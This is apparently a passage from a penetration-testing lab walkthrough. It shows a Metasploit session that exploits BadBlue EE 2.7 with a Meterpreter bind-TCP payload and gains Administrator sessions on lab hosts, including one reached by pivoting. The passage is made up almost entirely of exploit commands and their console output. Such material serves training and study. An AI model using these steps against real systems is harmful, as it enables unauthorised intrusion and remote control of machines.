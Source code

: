 ```
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     10.0.29.71       no        The target address


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf6 exploit(windows/http/badblue_passthru) > exploit

[*] Trying target BadBlue EE 2.7 Universal...
[*] Started bind TCP handler against 10.0.29.71:4444
[*] Sending stage (175174 bytes) to 10.0.29.71
[*] Meterpreter session 2 opened (10.0.18.166:49533 -> 10.0.29.71:4444) at 2023-07-19 18:06:30 +0530

meterpreter > 
```

```
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/http/badblue_passthru) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.3:4444 -> 10.0.18.166:49226 (10.0.18.166)
  2         meterpreter x86/windows  ATTACKDEFENSE\Administrator @ ATTACKDEFENSE      10.0.18.166:49533 -> 10.0.29.71:4444 (10.0.29.71)

```